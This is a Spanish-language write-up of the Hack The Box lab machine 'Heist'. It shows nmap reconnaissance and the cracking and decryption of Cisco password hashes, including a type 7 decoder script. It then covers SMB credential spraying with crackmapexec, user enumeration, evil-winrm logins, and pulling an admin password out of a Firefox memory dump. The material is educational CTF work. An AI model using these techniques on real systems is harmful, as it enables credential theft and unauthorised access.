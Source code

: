 ```yaml
---
layout: single
title: HTB-Heist
excerpt: "WriteUp de la máquina HTB Heist -- Type: Easy"
date: 2022-04-06
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/writeups/heist/heist.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```

<centre><img src="/assets/images/writeups/heist/heist.png"></centre>


[Maquina](https://app.hackthebox.com/machines/Heist) 



## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.149
```

```bash
Nmap scan report for 10.10.10.149
Host is up (0.042s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Support Login Page
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-06T13:56:12
|_  start_date: N/A
|_clock-skew: 5m43s
```

En la web podemos ver un panel de login y podemos entrar como **guest**
<centre><img src="/assets/images/writeups/heist/panel1.png"></centre>

Una vez dentro, veriamos que se trata de una especie de panel de ticketing donde hay diferentes usuarios que guardamos los nombres y tiene un fichero adjuntado a un mensaje donde se encuentran contraseñas que podemos crackear.
<centre><img src="/assets/images/writeups/heist/panel2.png"></centre>
```txt
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
```


## Explotación

Con **john** podemos crackear el md5:
```bash
john  --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long pass.txt

└─$ john --show pass.txt
?:stealth1agent
```

Y con el siguiente script en python que se puede encontrar por internet se pueden descifrar las otras dos passwords:
```python
#!/usr/bin/env python3

import sys
from binascii import unhexlify

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} [level 7 hash]")
    exit()

static_key = "tfd;kfoA,.iyewrkldJKD"
enc = sys.argv[1]
start = int(enc[:2], 16) - 1
enc = unhexlify(enc[2:])
key = static_key[start:] + static_key[:start]

plain = ''.join([chr(x ^ ord(key[i % len(key)]))  for i, x in enumerate(enc)])
print(plain)
```

```bash
┌──(maxter㉿kali)-[~/work]
└─$ python python.py 0242114B0E143F015F5D1E161713      
$uperP@ssword
                                                                                                                                                                                                                                            
┌──(maxter㉿kali)-[~/work]
└─$ python python.py 02375012182C1A1D751618034F36415408
Q4)sJu\Y8qz*A3?d
```

Usamos **crackmapexec** para comprobar si existe algun usuario con alguna contraseña para logearse en la máquina.
```bash
crackmapexec smb 10.10.10.149 -u usr.txt -p pass.txt
```

```txt
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent
```

Podemos enumerar mas usuarios en la máquina en el caso de que los necesitaramos.
```bash
rpcclient -U 'hazard%stealth1agent' 10.10.10.149
```      

```txt
rpcclient $> lookupnames hazard
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008 
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
```

```bash
for i in {1000..1050}; do rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i" | grep -v unknown; done
```

Añadimos los siguientes usuarios a la nuestra lista.
```txt
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1)
S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (1)
S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (1)
```

```bash
crackmapexec smb 10.10.10.149 -u chase -p pass.txt
```

```txt
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d 
```

Nos conectamos con **evil-winrm**
```bash
└─$ evil-winrm -i 10.10.10.149 -u chase -p 'Q4)sJu\Y8qz*A3?d'    
```

Al movernos por la máquina no encontramos nada y podriamos mirar los procesos con el comando **PS** y nos encontramos algunos de **firefox** y podríamos intentar sacar algunas **credenciales** que tenga en el navegador.

```txt
   1478      57    23496      79184              4316   1 explorer
    347      19    10240      38684       0.05   1736   1 firefox
    405      33    26756      84500       0.80   2584   1 firefox
   1048      63   112260     188264       3.83   3672   1 firefox
    385      28    21712      58504       0.97   6288   1 firefox
    355      25    16432      39132       0.09   6652   1 firefox
     49       6     1504       3852               756   0 fontdrvhost
     49       6     1792       4648               764   1 fontdrvhost
```

Nos dumpeamos las credenciales con el [Procdump](https://download.sysinternals.com/files/Procdump.zip) y lo subimos con el comando upload de **evil-winrm**.
```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64.exe -accepteula -ma 1736

ProcDump v10.11 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[13:34:14] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_220419_133414.dmp
[13:34:14] Dump 1 writing: Estimated dump file size is 288 MB.
[13:34:16] Dump 1 complete: 288 MB written in 1.5 seconds
[13:34:16] Dump count reached.

*Evil-WinRM* PS C:\Users\Chase\Documents> 
```

Con el programa [Strings](https://download.sysinternals.com/files/Strings.zip) podemos aclarar el fichero dmp a un txt algo mas visible para nosotros.
```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> cmd /c "strings.exe -accepteula 
firefox.exe_220419_133414.dmp > fichero.txt"
````



Buscamos la posible contraseña en el **fichero.txt**
```txt
*Evil-WinRM* PS C:\Users\Chase\Documents> findstr "login_password" fichero.txt
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
*Evil-WinRM* PS C:\Users\Chase\Documents> 
```

Comprobamos que usuario somos al entrar con **evil-winrm**
```bash
└─$ evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'    
```
```txt
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::d8
   IPv6 Address. . . . . . . . . . . : dead:beef::dcaf:64d7:3f43:1c72
   Link-local IPv6 Address . . . . . : fe80::dcaf:64d7:3f43:1c72%15
   IPv4 Address. . . . . . . . . . . : 10.10.10.149
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:551%15
                                       10.10.10.2
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```


Flag **Chase**:
```powershell
*Evil-WinRM* PS C:\Users\Chase\Desktop> dir


    Directory: C:\Users\Chase\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/22/2019   9:08 AM            121 todo.txt
-ar---        4/19/2022   1:21 PM             34 user.txt


*Evil-WinRM* PS C:\Users\Chase\Desktop>
```

Flag **Administrator**
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/19/2022   1:21 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```